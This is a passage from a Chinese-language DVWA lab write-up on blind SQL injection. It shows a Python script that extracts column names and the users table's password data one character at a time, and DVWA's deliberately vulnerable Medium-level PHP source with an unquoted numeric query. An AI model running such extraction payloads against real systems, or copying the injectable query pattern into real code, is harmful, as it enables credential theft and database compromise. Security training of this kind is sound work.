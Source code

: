```python
                print(c)
                columns_name = columns_name + str(c)
                break
    print("columns_name:{}".format(columns_name))
    # return columns_name
get_columns_name("dvwa", "users")
# 特定列的数据
def get_data(table_name, column_name):
    data = ""
    for i in range(1,60):
        for c in chars:
            url = base_url + "id=1' and substr((select group_concat({}) from {}), {}, 1) = '{}'%23&Submit=Submit#".format(column_name, table_name, i, c)
            response = session.get(url, cookies=cookies).text
            if "User ID exists in the database" in response:
                print(c)
                data = data + c
                break
    print("data in {}:{}".format(column_name, data))
get_data("users", "password")
```

<br>

## Medium

相比于Low，限制了用户的输入，且改为了通过`POST`的方式传参

<img src="/images/ctf-web-dvwa/image-20221009224911053.png" alt="image-20221009224911053" style="zoom:67%;" />

那么从BurpSuite上抓包，并从`POST`的参数处进行注入，获取信息的逻辑和Low里面是一样的，另外要注意的是这里`id`的类型也从字符型变成了数值型

<img src="/images/ctf-web-dvwa/image-20221009224935143.png" alt="image-20221009224935143" style="zoom:67%;" />

源码：

```php
<?php
if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $id = $_POST[ 'id' ];
// 这里mysqli_real_escape_string对单引号进行了转义
    $id = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $id ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    // Check database
    $getid  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $getid ); // Removed 'or die' to suppress mysql errors
    // Get results
    $num = @mysqli_num_rows( $result ); // The '@' character suppresses errors
    if( $num > 0 ) {
        // Feedback for end user
        echo '<pre>User ID exists in the database.</pre>';
    }
    else {
        // Feedback for end user
        echo '<pre>User ID is MISSING from the database.</pre>';
    }
    //mysql_close();
}
?>
```
